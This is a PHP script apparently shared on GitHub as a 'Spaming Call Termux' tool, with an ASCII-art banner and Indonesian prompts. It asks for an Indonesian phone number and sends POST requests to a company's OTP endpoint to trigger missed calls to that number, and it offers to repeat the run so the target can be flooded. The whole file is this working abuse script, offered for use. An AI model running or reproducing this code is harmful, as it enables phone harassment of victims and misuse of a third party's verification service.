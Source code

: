 <?php


class MyCall {
	/*
	* Name : Spaming Call Termux
	* File : run.php
	* Author : sriasu80
	* Github : https://github.com/sriasu80/asu8
	* Date : 11-09-2021
	* Note : Recoder Bangsat Fvck Dont Di Recode !!!
	* Version : 1.0
	*/
	protected static $agent;

	function __construct(){
		self::$agent = "Mozilla/5.0 (Linux; Android 8.1.0; CPH1853) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36";
		$this->run();}
		var $logo = "\n   \e[37m╭━╱▔▔▔▔╲━╮\n   \e[37m╰╱╭\e[31m▅\e[37m╮╭\e[31m▅\e[37m╮╲╯\n    ▏╰┈▅▅┈╯▕          \e[37mSpaming Call Termux\n    \e[37m╲┈\e[31m╰━━╯\e[37m┈╱        made by \e[34mPapiking21 \e[37m© 2021\n    ╱╱▔╲╱▔╲╲                ƪ(‾_‾)ʃ\n  \e[37m╭━╮\e[31m▔▏\e[34m┊┊\e[31m▕▔\e[37m╭━╮\n  \e[37m┃\e[34m┊\e[37m┣▔╲\e[34m┊┊\e[37m╱▔┫\e[34m┊\e[37m┃\n  \e[37m╰━━━━\e[37m╲╱\e[37m━━━━╯\n\n \e[37m[\e[34m!\e[37m] Gunakan Dengan Bijak\n";

	public function run(){
		try {
			system("clear");
			echo $this->logo;
			echo " \e[37m[\e[34m*\e[37m] Nomor \e[37m(\e[34m08\e[37m) : \e[33m";
			$phone = trim(fgets(STDIN));
			if(substr($phone, 0, 2) !== "08") {
				throw new Exception("\n \e[31mMessage \e[37m: gunakan angka awalan 08\n\n");
				exit(0);}

			$url = "https://www.nutriclub.co.id/otp/?phone={$phone}&old_phone={$phone}";
			for($coli=0;$coli<=0;$coli++) {
				$ch = curl_init();
				curl_setopt($ch, CURLOPT_URL, $url);
				curl_setopt($ch, CURLOPT_POST, 1);
				curl_setopt($ch, CURLOPT_USERAGENT, "User-agent".self::$agent);
				curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
				$result = curl_exec($ch);
				if(strpos($result, "Request misscall berhasil")) {
					echo "\e[37m\narray(\n       [code] => 00\n       [msisdn] => $phone\n       [message] => Request misscall berhasil\n       [total] => 1\n)\n\n";
				} else {
					echo "\e[37m\narray(\n       [code] => 30\n       [msisdn] => $phone\n       [message] => Request misscall failed sudah dilakukan 3x\n       [total] => 1\n)\n\n";}}

			echo " \e[37m[\e[33m!\e[37m] Gunakan lagi ?\n \e[37m[\e[33my\e[37m/\e[33mn\e[37m]\n \e[33m•\e[37m> : ";
			$call = trim(fgets(STDIN));
			if($call == "y" or $call == "Y") { $this->run();} else if($call == "n" or $call == "N") { exit("\n >>> Thank And Jangan Lupa Subscribe My Chanel FaaL TV <<<\n\n");} else { exit("\nBy Goblokkk !!\n\n");}

		} catch (Exception $e) {
			echo $e->getMessage();}}}

new MyCall

?>
